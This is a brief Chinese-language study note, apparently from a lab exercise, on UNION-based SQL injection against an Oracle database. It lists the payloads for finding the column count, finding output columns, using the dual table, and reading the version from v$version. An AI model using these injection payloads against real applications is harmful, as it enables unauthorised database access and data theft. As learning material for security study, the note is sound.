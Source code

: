 # ①找到列数
```SQL
' ORDER BY 2--
```
##②找到显示位
```SQL
' UNION SELECT 'asdc',NULL-- 
```
发现报错，因为Oracle特殊语法
使用UNION时候需要具体的表,当不知道的时候可医用dual表答题
```SQL
'UNION SELECT 'asdc',NULL FROM dual+--
```
## ③找到Oracle的版本
```SQL
'UNION SELECT banner,NULL FROM v$version+--
```

## 补，关于Oracle中的dual字段
![[Pasted image 20231015222334.png]]